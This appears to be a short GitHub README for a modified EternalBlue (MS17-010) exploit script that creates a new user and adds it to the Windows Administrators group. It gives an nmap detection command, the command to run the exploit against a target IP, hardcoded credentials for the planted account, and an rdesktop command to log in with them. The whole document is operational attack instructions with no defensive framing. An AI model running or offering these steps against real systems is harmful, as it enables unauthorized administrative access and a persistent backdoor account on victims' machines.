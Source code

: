 # EternalBlue
I have changed the script for create a new user and add the user to administrator group

Detect the vulnerability
nmap --script smb-vuln-ms17-010 -p445 <target_ip>

How to run the exploit
python exploit.py <target_ip> <pipe_name>
once the user is created you can logged in to the system using rdesktop

user    : John ,
Password: fadf24as

rdesktop -u John -p fadf24as <target_ip>
